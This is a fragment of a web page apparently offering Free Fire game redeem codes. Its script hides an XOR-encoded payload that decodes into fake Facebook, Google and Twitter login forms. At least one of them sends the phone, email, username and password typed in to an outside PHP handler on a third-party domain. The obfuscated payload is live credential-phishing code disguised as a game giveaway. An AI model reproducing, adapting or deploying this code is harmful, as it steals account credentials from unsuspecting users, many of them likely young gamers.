'00'02cwvmacrkvcnkxg'1F'00mdd'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Dcag`mmi'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]d`'00'02pgcfmln{'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00:0JGA'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`vl/nmekl/d`'00'1GNme'02Kl'1A-`wvvml'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/apgcvg/caamwlv'00'1GApgcvg'02caamwlv'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/lmv/lmu'00'1GLmv'02lmu'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/dmpemvvgl/rcqqumpf'00'1GDmpemvvgl'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/`mz'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'02nclewceg/lcog/cavktg'00'1GGlenkqj'02'0:WI'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Klfmlgqkc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cqc'02Hcuc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Ognc{w'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'w47G7'w450A'w:C;G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GGqrc'D3mn'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GRmpvwew'GCq'02'0:@pcqkn'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ak'02ancqq'1F'00dc'02dc/rnwq'00'1G'1A-k'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amr{pkejv'00'1GDcag`mmi'02Kla,'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'2C'2C'1Afkt'02ancqq'1F'00rmrwr/nmekl'02vukvvgp'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/vukvvgp'00'02qv{ng'1F'00vgzv/cnkel'1Cngdv'1@'02rcffkle'1C7rz'1@'00'1G'2C'2;'2;'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgvukv'0:'0;'00'02ancqq'1F'00anmqg/mvjgp'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1Ganmqg'1A-k'1G'1A-c'1G'2C'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00jgcfgp/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--0r,amo,vp-ur/amlvglv-wrnmcfq-023:-25-emmeng]RLE3;417,rle'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/vukvvgp'00'1GNmekl'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRjmlg'0A'02gockn'0A'02mp'02wqgplcog'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRcqqumpf'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Vukvvgp'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]emmeng'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00:0JGA'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`wvvml'02`nwg'00'1G'02'02Nme'02Kl'02'02'1A-`wvvml'1G'1A`p'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GDmpemv'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'02`wngv'00'1G'w0200'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GQkel'02wr'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'02'02'02'2C'2C'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--chcz,emmengcrkq,amo-chcz-nk`q-hswgp{-1,7,3-hswgp{,okl,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--amfg,hswgp{,amo-wk-3,33,1-hswgp{/wk,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--aflhq,anmwfdncpg,amo-chcz-nk`q-hswgp{wk/vmwaj/rwlaj-2,0,1-hswgp{,wk,vmwaj/rwlaj,okl,hq'00'1G'1A-qapkrv'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2C'06'0:fmawoglv'0;,pgcf{'0:dwlavkml'0:'0;'02'5@'2C'2;'06'0:'00'01d`Nmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'06'0:'00,dcag`mmi'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/d`'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,dcag`mmi'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'2C'2;'06'0:'00'01vukvNmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2C'2;'2;'06'0:'00,vukvvgp'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/mvjgp'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,vukvvgp'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'5F'0;'1@'2C'2C'1A-qapkrv'1G'02'02'02'2C'2;'2;'02'2C'2;'1Aqapkrv'1G'2C'2;'02'02tcp'02amtgpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05amtgp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2C'2;'02'02tcp'02ctcvcpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05ctcvcp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2;'1A-qapkrv'1G'2C'1Aqapkrv'1G'2C'2;'2;'06'0:dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'05,qgngav/ecog'05'0;,qgngavkxg'0:'5@'2C'2;'2;'2;'2;oczKvgoq'1C'021'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'5F'0;'2C'2C'2;'1A-qapkrv'1G'2;'2;'02'2C'2;'2;'02'2C'02'02'02'02'02'02'1A-fkt'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2;'2;'2;'06'0:'05'7@fcvc/vmeeng'1F'00rmrmtgp'00'7F'05'0;,rmrmtgp'0:'0;'1@'2C'2;'2;'2;'06'0:'05,cngpv'05'0;,pgcf{'0:dwlavkml'0:'0;'5@'2C'2;'2;'2;'02'02'02'02kd'0:'03'06'0:vjkq'0;,jcqAncqq'0:'05qvc{'05'0;'0;'02'5@'02'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,pgomtgAncqq'0:'05qjmu'05'0;'1@'5F'0A'0237222'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'02'02'02'02gnqg'5@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'1A-qapkrv'1G'2C'02'02'02'02'02'02'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-tglfmpqockl,hq'00'1G'1A-qapkrv'1G'2C'02'02'02'02'02'02'02'02'02'02'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-hq/vpcai-vpcai,hq'00'1G'1A-qapkrv'1G'02'2C'2C'02'02'02'1A-`mf{'1G'2C'1A-jvon'1G'2C'2C'2C"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);
</script>

ff-redeem-code-new
ff-code
